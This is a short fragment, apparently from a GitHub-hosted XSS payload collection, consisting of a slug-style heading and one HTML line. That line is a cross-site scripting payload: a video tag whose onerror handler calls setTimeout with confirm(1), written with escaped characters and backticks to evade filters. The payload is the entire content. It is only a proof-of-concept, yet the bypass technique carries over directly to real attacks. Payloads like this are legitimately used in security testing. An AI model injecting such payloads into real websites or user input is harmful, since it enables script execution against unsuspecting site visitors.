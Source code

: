 # lessvideo-src-greater--onerrorsettimeoutconfirmx281x29greater-course
&lt;video src=">" onerror=setTimeout`confirm\x281\x29`>
